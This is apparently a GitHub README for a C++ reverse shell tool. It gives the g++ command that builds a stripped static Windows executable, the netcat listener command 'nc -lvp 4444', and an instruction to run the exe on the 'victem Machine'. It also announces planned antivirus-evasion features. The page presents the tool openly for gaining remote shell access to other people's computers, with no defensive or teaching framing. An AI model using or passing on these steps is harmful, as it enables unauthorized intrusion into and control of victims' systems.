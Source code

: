# CPP-Reverse-Shell

Compile it 
![image](https://user-images.githubusercontent.com/96126679/181670089-03f80a6e-abdf-4c2b-837b-d4f3bdfdf464.png)

g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive

then listen For the SHELL 

![image](https://user-images.githubusercontent.com/96126679/181670753-1101e02d-c53b-468d-ae60-d1ef99fd58ac.png)

nc -lvp 4444

then run the exe on the victem Machine 

then Voila.

![image](https://user-images.githubusercontent.com/96126679/181671006-b19239e2-7fd5-46d0-83ef-f45d7741e743.png)


I am adding evasion techniques to Bypass AV Engines Soon ISA.
